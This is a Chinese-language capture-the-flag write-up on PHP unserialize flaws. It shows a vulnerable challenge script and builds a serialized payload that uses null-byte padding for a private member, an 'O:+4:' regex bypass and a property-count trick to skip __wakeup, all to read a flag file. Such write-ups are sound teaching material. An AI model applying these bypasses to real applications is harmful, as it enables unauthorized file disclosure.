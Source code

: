 # PHP反序列化

#### 源码

```php
<?php 
class Demo { 
    private $file = 'Gu3ss_m3_h2h2.php'; 

    public function __construct($file) { 
        $this->file = $file; 
    } 

    function __destruct() { 
        echo @highlight_file($this->file, true); 
    } 

    function __wakeup() { 
        if ($this->file != 'Gu3ss_m3_h2h2.php') { 
            //the secret is in the f15g_1s_here.php 
            $this->file = 'Gu3ss_m3_h2h2.php'; 
        } 
    } 
} 

if (isset($_GET['var'])) { 
    $var = base64_decode($_GET['var']); 
    if (preg_match('/[oc]:\d+:/i', $var)) { 
        die('stop hacking!'); 
    } else { 

        @unserialize($var); 
    } 
} else { 
    highlight_file("Gu3ss_m3_h2h2.php"); 
} 
?>
```

#### 魔术方法

```
__construct()	//当一个对象创建时被调用
__destruct() 	//对象被销毁时触发
__wakeup() 	//使用unserialize时触发
__sleep() 	//使用serialize时触发
__toString() 	//把类当做字符串时触发
__get() 	//用于从不可访问的属性读取数据
__set() 	//用于将数据写入不可访问的属性
```

####  构造反序列化字符串

```php
<?php 
class Demo { 
    private $file = 'Gu3ss_m3_h2h2.php'; 

    public function __construct($file) { 
        $this->file = $file; 
    } 

    function __destruct() { 
        echo @highlight_file($this->file, true); 
    } 

    function __wakeup() { 
        if ($this->file != 'Gu3ss_m3_h2h2.php') { 
            //the secret is in the f15g_1s_here.php 
            $this->file = 'Gu3ss_m3_h2h2.php'; 
        } 
    } 
} 

$a = new Demo("f15g_1s_here.php");
echo serialize($a)."\n";
echo base64_encode(serialize($a));
?>
```

#### 注意点

##### private私有成员的序列化

**对象的私有成员具有加入成员名称的类名称;受保护的成员在成员名前面加上'*'。这些前缀值在任一侧都有空字节。**

所以说，在我们需要传入该序列化字符串时，需要补齐两个空字节：

```php
O:4:”Demo”:1:{s:10:%00Demo%00file”;s:16:”f15g_1s_here.php”;}
```

注：可以使用 burpsuit 修改

##### 绕过正则匹配

```php
preg_match('/[oc]:\d+:/i', $var);
```

> 1. [xyz] 字符集合。匹配所包含的任意一个字符。例如，“[abc]”可以匹配“plain”中的“a”
> 2. ：就是冒号
> 3. \d是匹配一个数字字符相当于[0-9]
> 4. +匹配前面子表达式一次或多次

所以这个其实匹配了序列化字符串开始的部分O:4:
尝试了O:0x4:失败
最后用O:+4:绕过

##### 绕过wakeup

修改序列化字符串中对象的个数，使其不正确即可（即将“1”改成>="2"）

```php
O:+4:”Demo”:2:{s:10:%00Demo%00file”;s:16:”f15g_1s_here.php”;}
```